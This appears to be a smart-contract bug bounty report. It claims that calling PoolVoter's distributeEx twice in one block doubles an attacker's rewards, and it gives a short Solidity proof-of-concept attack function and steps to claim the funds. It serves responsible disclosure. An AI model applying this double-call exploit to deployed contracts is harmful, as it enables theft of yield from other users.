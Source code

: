 
So we can see that this bug allow the hackers to double the reward get from the protocol. 

# Impacts
# About the severity assessment

This bug allow the hackers to double the reward get from the protocol and thus steal yield from other users. 

This bug is high category "Theft of unclaimed yield"

## Proof of concept
#  Proof of concept

Step 1: Wait the reward token is distributed to the PoolVoter contract 
Step 2: Deploy a contract. In this contract have the attack function 

```solidity
function attack() public {


// Step 2: Hackers call with POOL_A has the index of 2 in pool array in PoolVoter contract

PoolVoter.distributeEx(reward_token,2,3); 

// Step 3: Hacker call the function again in the same block. 

PoolVoter.distributeEx(reward_token,2,3); 


} 

```

Step 3: Call getReward to take the reward 
https://github.com/zerolend/governance/blob/main/contracts/voter/gauge/RewardBase.sol#L79 

```solidity
function getReward(
        address account,
        IERC20 token
    ) 
```

It seems that the contract PoolVoter not yet deployed, so I provide the above POC to demonstrate the bug. Please let me know if you need more clarification. 
